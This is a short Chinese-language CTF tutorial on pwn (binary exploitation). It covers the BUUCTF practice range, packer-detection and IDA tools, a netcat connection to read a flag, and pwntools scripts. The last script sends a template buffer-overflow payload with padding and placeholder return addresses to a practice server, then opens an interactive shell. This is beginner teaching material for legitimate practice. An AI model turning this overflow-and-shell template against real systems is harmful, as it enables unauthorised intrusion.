 <center>Pwn系列</center>





[toc]







## Pwn系列

> 什么是pwn: 二进制溢出也称之为PWN。
>
> [bilibili](https://www.bilibili.com/video/BV1X4ByY2EKv/)





### 1. 靶场

> buctf: [ctf](https://buuoj.cn/challenges)







### 2. 分析

> Exeinfo PE: 查壳工具。[github](https://github.com/ExeinfoASL/ASL/releases/tag/exeinfo)
>
> 跨平台的： [Detect-it-Easy](https://github.com/horsicq/Detect-It-Easy)

```shell
yay -S detect-it-easy
```

![image-20241212110453408](./assets/image-20241212110453408.png)



### 3. ida分析

> ida

```shell
yay -S ida-free
```

汇编代码

![image-20241212110917502](./assets/image-20241212110917502.png)

> `tab`伪代码

![image-20241212110959440](./assets/image-20241212110959440.png)

> 知道代码后，我们连接主机

```shell
# 连接靶场
nc node5.buuoj.cn 26813 

# 查看flag
cat flag
```





### 4. 脚本

```shell
# 虚拟环境
python3 -m venv pwn

# 进入
source /pwn/bin/activate

# 安装
pip3 install pwntools
```

```python
from pwn import *

# attact 
r = remote("node5.buuoj.cn",26813)

# 获取靶机交互终端
r.interactive()
```

```python
from pwn import *

# 设置运行环境
context.arch = 'amd64'      # 架构
context.os = 'linux'        # 系统
context.log_level = 'debug' # 日志级别

# 远程连接示例
r = remote('node5.buuoj.cn', 26813)

# 构造 Payload
payload = flat([
    b'A' * 40,           # padding
    p64(0x401234),       # 返回地址
    p64(0x404050)        # 其他数据
])

# 发送 Payload
r.sendlineafter(b'Input:', payload)

# 获取返回数据
response = r.recvline()
log.success(f'Response: {response}')

# 获取交互式 shell
r.interactive()
```





